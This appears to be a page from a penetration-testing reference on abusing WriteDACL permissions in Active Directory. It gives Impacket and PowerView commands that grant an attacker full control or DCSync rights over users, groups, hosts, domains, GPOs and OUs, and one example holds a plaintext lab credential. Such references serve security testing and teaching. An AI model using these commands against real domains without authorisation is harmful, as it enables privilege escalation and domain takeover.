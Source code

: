 # WriteDACL

## Information

With `Write` access to the target object’s DACL, you can **grant yourself any privilege you want on the object**.

{% tabs %}
{% tab title="Users" %}
Grant yourself `FullControl` of the user:

{% code overflow="wrap" %}
```bash
# Assigning FullControl permissions over the user with Impacket
impacket-dacledit -action write -rights FullControl -principal ryan -target ca_svc sequel.htb/ryan:WqSZAF6CysDQbGb3
```
{% endcode %}

```powershell
# Assigning GenericAll permissions over the user with PowerView
Add-DomainObjectAcl -TargetIdentity harmj0y -Rights All
```

See [here](fullcontrol.md) for exploitation options.
{% endtab %}

{% tab title="Groups" %}
Grant yourself `FullControl` of the group:

```powershell
# Powerview
Add-DomainObjectAcl -TargetIdentity "Domain Admins" -Rights WriteMembers
```

&#x20;This can be leverage to add members to the group (see [here](genericall.md#over-a-group)).
{% endtab %}

{% tab title="Hosts" %}
Grant yourself `FullControl` of the computer:

```powershell
# Assigning GenericAll permissions over the computer
Add-DomainObjectAcl -TargetIdentity windows01 -Rights All
```

This can be leveraged to [read the LAPS password](readlapspassword.md) or perform [RBCD](broken-reference) against the target host.
{% endtab %}

{% tab title="Domains" %}
Grant yourself `DCSync` rights:

```powershell
Add-DomainObjectAcl -TargetIdentity testlab.local -Rights DCSync
```

This can be leveraged to perform a [DCSync attack](dcsync.md).
{% endtab %}

{% tab title="GPOs" %}
Grant yourself `FullControl` of the GPO:

```powershell
Add-DomainObjectAcl -TargetIdentity TestGPO -Rights All
```

This can be leveraged to edit the GPO and take over an object the GPO applies to.
{% endtab %}

{% tab title="OUs" %}
Grant yourself `FullControl` of the OU:

```powershell
Add-DomainObjectAcl -TargetIdentity <OU-GUID> -Rights All
```

This can be leveraged to add a new ACE to the OU that inherits down to child objects so we can then take over those child objects.
{% endtab %}
{% endtabs %}
